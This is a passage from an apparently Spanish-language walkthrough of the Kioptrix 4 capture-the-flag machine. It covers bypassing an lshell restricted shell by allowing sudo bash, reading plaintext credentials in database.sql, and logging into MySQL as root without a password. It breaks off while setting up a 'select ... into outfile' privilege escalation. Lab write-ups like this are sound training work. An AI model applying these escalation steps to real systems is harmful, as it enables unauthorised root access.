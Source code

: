En `/root/lshell-0.9.12` está el script que da la shell restringida, inspeccionando el código, la configuración está en `/root/lshell-0.9.12/etc/lshell.conf`. Podemos hacer nuestro propio `lshell.conf` con cambios como:
```python
[default]
allowed         : ['ls','echo','cd','ll','sudo','bash','whoami']
forbidden       : []
sudo_commands   : ['bash']
```

El problema es que no podemos borrar el archivo actual, ni modificarlo.

Por otro lado en `/var/www` revisamos los archivos php
```python
robert@Kioptrix4:/var/www$ ls -l
total 36
-rw-r--r-- 1 root root 1477 Feb  6  2012 checklogin.php
-rw-r--r-- 1 root root  298 Feb  4  2012 database.sql
drwxr-xr-x 2 root root 4096 Feb  6  2012 images
-rw-r--r-- 1 root root 1255 Feb  6  2012 index.php
drwxr-xr-x 2 root root 4096 Feb  4  2012 john
-rw-r--r-- 1 root root  176 Feb  4  2012 login_success.php
-rw-r--r-- 1 root root   78 Feb  4  2012 logout.php
-rw-r--r-- 1 root root  606 Feb  6  2012 member.php
drwxr-xr-x 2 root root 4096 Feb  4  2012 robert
```
Se revisó el archivo `database.sql` y se obtuvieron al final credenciales para la base de datos.
```sql
robert@Kioptrix4:/var/www$ cat database.sql 
CREATE TABLE `members` (
`id` int(4) NOT NULL auto_increment,
`username` varchar(65) NOT NULL default '',
`password` varchar(65) NOT NULL default '',
PRIMARY KEY (`id`)
) TYPE=MyISAM AUTO_INCREMENT=2 ;

-- 
-- Dumping data for table `members`
-- 

INSERT INTO `members` VALUES (1, 'john', '1234');
```
De igual forma, para un mayor privilegio se logró acceder como root a la base de datos:
```sql
robert@Kioptrix4:/var/www$ mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 64
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| members            | 
| mysql              | 
+--------------------+
3 rows in set (0.00 sec)
```
Usando igual root, se hizo un tipo de inyección, con select ... into outfile
```python
robert@Kioptrix4:/var/www$ mysql -u root        
Welcome to the MySQL monitor.[...]

```